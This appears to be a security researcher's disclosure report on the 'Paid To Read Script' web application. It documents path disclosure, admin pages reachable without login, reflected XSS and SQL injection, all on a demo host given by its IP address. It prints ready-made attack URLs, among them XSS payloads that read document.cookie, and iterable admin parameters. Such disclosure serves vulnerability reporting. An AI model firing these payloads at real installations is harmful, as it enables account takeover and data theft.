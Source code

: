 ### Paid To Read Script  SQL Injection/XSS/Unauthorized access/Sensitive information leak

Well, when I pentest the official demo site of Paid To Read Script, I found some vulnerabilities here.


#### Sensitive information leak

When you visit the some page with wrong or invalid parameter value, you can get some sensitive information like absolute-path without login.

```
http://74.124.215.220/~paioread/admin/userview.php?uid=3

http://74.124.215.220/~paioread/admin/userview.php?uid=12%27

Get absolute-path:
/home/paioread/public_html/admin/userview.php
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/info_leak.png)


#### Unauthorized access:

For example, we can vist some admin panel webpages easily , without login into the admin panel.

By the way, we can try to iter the parameter values , then get those important sensitive user informations in the database easily.


Key parameter: "fn"
```
http://74.124.215.220/~paioread/admin/viewvisitcamp.php?fn=7
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access1.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access2.png)


Key parameter: "uid"
```
http://74.124.215.220/~paioread/admin/userview.php?uid=13
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access3.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access4.png)


#### xss:

There're some reflect-xss in this system, for example:

http://74.124.215.220/~paioread/referrals.php?id=10&tier=1%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss1.png)

http://74.124.215.220/~paioread/admin/userview.php?uid=13%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss2.png)



#### SQL Injection:


Key parameter: "id"

```
http://74.124.215.220/~paioread/referrals.php?id=10&tier=1
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/sqli.png)

You can see,  we can obtain the current database user or more sensitive data now!


